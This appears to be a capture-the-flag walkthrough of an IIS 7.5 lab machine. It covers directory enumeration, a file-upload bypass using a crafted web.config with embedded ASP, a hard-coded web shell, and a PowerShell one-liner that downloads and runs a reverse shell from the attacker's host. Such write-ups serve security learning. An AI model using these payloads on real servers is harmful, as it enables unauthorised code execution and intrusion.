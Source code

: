 # 10 - Web Server


# [IIS 7.5 was included in Windows 7 and Windows Server 2008 R2](https://en.wikipedia.org/wiki/Internet_Information_Services)

![](vx_images/49210044947.png)

# default page
![](vx_images/3644413188877.png)


# Gobuster

```sql
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              aspx,asp,html,txt
[+] Timeout:                 10s
===============================================================
2021/06/05 16:04:00 Starting gobuster in directory enumeration mode
===============================================================

/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
```
# transfer.aspx

![](vx_images/1223897746400.png)


# transfer.aspx won't accept aspx files
![](vx_images/4043024515494.png)

# It accepts png files
![](vx_images/5567748841245.png)



# [iis 7.5 file upload exploit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

![](vx_images/2096648476291.png)

# Here is  web.config  file from the article
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```


# Let's try to upload this file

![](vx_images/2664749022769.png)

It's uploaded but how can I see this file? Gobuster found another directory **uploadedfiles**, let's visit web.config in uploadedfiles, if we can see 3 that means our exploit is working.


![](vx_images/603300837113.png)

It seems like we gained code execution, let's search for shell.asp in order to execute code properly. Note that the exploit article states web.config is only runs asp and not aspx

# Shell.asp

![](vx_images/663912707299.png)

I tried to upload a good webshell but unfortunately post request doesn't work on web.config, it gives 404 error. So we are stuck with get requests that means we need to hard code our commands.


After trimming down shell.asp from laudanum. Let's try the following web.config for code execution


# web.config
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

<%
   Dim wshell, intReturn, strPResult
   cmd = "cmd /c whoami"
   set wshell = CreateObject("WScript.Shell")
   Set objCmd = wShell.Exec(cmd)
   strPResult = objCmd.StdOut.Readall()
   Response.write "<br><pre>" & replace(replace(strPResult,"<","&lt;"),vbCrLf,"<br>") & "</pre>"
   set wshell = nothing
%>
```

# User merlin
![](vx_images/288752801439.png)

It's working but it's not the most efficient way to execute code, we need a shell.

Here is what we need to do in a nutshell.
* Find a good reverse shell
* Open up a nc listener on port 4444 and a web server to host the reverse shell
* Download the reverse shell on the box and execute it at the same time
* Proceed with the new shell


# Reverse shell 

![](vx_images/4517174286521.png)

This file needs to be downloaded with web.config, it can be done with powershell

# Download and execute the reverse shell
```bash
<!--
<%
   Dim wshell, intReturn, strPResult
   cmd = "cmd /c powershell -c IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.12/reverse.ps1')"
   set wshell = CreateObject("WScript.Shell")
   Set objCmd = wShell.Exec(cmd)
   strPResult = objCmd.StdOut.Readall()
   Response.write "<br><pre>" & replace(replace(strPResult,"<","&lt;"),vbCrLf,"<br>") & "</pre>"
   set wshell = nothing
%>
-->


```
![](vx_images/5216250442979.png)


![](vx_images/4745162568815.png)

we got ourselves a shell here

# user.txt

user.txt doesn't appear on user merlin's desktop folder. As it turns out, on this box it's a hidden file. 
We can list all the files including hidden files with this line of code.


```
PS C:\Users\merlin> ls . -Force -Recurse
```
![](vx_images/2982436737577.png)